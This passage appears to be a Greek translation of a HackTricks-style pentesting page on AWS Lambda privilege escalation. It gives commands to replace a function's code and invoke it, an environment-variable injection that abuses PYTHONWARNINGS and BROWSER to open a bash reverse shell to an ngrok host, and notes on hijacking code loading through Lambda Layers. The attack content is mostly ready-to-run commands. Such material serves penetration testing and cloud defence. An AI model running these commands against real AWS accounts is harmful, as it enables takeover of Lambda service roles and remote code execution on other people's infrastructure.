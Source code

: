 Αν και ο attacker μπορεί να μην έχει την άμεση δυνατότητα να καλέσει τη Lambda function, εάν αυτή υπάρχει ήδη και είναι σε λειτουργία, είναι πιθανό να ενεργοποιηθεί μέσω υπαρχόντων workflows ή events, διευκολύνοντας έτσι έμμεσα την εκτέλεση του τροποποιημένου κώδικα.
```bash
# The zip should contain the lambda code (trick: Download the current one and add your code there)
aws lambda update-function-code --function-name target_function \
--zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
**Potential Impact:** Άμεσο privesc στο lambda service role που χρησιμοποιείται.

### `lambda:UpdateFunctionConfiguration`

#### RCE via env variables

Με αυτά τα δικαιώματα είναι δυνατό να προστεθούν environment variables που θα κάνουν τη Lambda να εκτελέσει αυθαίρετο κώδικα. Για παράδειγμα σε python είναι δυνατό να καταχραστεί κανείς τα environment variables `PYTHONWARNING` και `BROWSER` ώστε μια διεργασία python να εκτελέσει αυθαίρετες εντολές:
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
Για άλλες scripting languages υπάρχουν και άλλες env variables που μπορείτε να χρησιμοποιήσετε. Για περισσότερες πληροφορίες δείτε τις υποενότητες των scripting languages στο:

{{#ref}}
https://book.hacktricks.wiki/en/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/index.html
{{#endref}}

#### RCE μέσω Lambda Layers

[**Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) επιτρέπουν να συμπεριλάβετε **code** στη lamdba function σας αλλά **αποθηκεύοντάς το ξεχωριστά**, ώστε ο function code να μπορεί να παραμείνει μικρός και **several functions can share code**.

Μέσα στο lambda μπορείτε να ελέγξετε τα paths από όπου φορτώνεται το python code με μια function όπως η ακόλουθη:
```python
import json
import sys

def lambda_handler(event, context):
print(json.dumps(sys.path, indent=2))
```
These are the places:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

